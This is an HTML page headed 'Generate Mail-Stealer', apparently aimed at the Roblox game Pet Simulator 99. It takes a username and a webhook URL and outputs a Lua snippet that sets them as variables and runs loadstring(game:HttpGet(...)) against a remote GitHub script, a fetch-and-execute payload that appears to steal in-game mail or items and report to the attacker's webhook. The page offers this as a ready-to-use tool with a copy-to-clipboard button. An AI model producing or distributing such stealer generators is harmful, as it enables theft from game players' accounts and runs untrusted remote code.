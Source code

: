 <!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Coen On Top</title>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.3.1/styles/default.min.css">
<script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.3.1/highlight.min.js"></script>
<style>
  body { font-family: Arial, sans-serif; background-color: #7bc26b; text-align: center; padding: 50px; }
  .container { background-color: rgb(86, 135, 37); padding: 20px; border-radius: 8px; display: inline-block; }
  .input-field, .checkbox-group, button { margin: 10px 0; }
  button { padding: 10px 20px; background-color: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer; }
  button:hover { background-color: #0056b3; }
  #output { text-align: left; white-space: pre-wrap; }
  textarea { width: 100%; height: 150px; }
</style>
</head>
<body>
  <div class="container">
  <h1>Generate Mail-Stealer</h1>
    <div class="input-field">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username">
    </div>
    <div class="input-field">
      <label for="webhook">Webhook URL:</label>
      <input type="text" id="webhook" name="webhook">
    </div>
    <button onclick="generateOutput()">Generate</button>
    <textarea id="output"></textarea>
    <button onclick="copyToClipboard()">Copy to Clipboard</button>
  </div>

<script>
    function generateOutput() {
        var username = document.getElementById("username").value;
        var webhook = document.getElementById("webhook").value;
        var outputString = 'Username = "' + username + '"\n' + // Use actual line breaks
                           'Webhook = "' + webhook + '"\n' +
                           'loadstring(game:HttpGet("https://raw.githubusercontent.com/Petsim99x/PS99ScriptHub/main/script"))()';
        document.getElementById("output").value = outputString;
        hljs.highlightAll();
    }

    function copyToClipboard() {
        var copyText = document.getElementById("output");
        copyText.select();
        document.execCommand("copy");
    }
</script>

</body>
</html>
